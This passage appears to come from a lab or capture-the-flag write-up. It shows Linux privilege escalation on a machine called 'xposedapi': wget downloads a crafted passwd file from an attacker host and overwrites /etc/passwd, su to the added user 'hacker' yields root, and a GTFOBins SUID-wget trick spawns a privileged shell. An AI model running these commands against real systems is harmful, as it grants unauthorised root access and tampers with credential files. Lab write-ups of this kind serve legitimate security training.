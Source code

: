 ```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ wget http://192.168.118.5/passwd -O /etc/passwd
<pp$ wget http://192.168.118.5/passwd -O /etc/passwd
--2021-03-12 08:50:29--  http://192.168.118.5/passwd
Connecting to 192.168.118.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1462 (1.4K) [application/octet-stream]
Saving to: '/etc/passwd'

/etc/passwd         100%[===================>]   1.43K  --.-KB/s    in 0s      

2021-03-12 08:50:29 (224 MB/s) - '/etc/passwd' saved [1462/1462]
```

All that is left to do now is log in as the new user.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ whoami
whoami
clumsyadmin
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ su hacker
su hacker
Password: pass123

root@xposedapi:/home/clumsyadmin/webapp# whoami
whoami
root
root@xposedapi:/home/clumsyadmin/webapp#
```

Method used by me.

https://gtfobins.github.io/gtfobins/wget/#suid

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```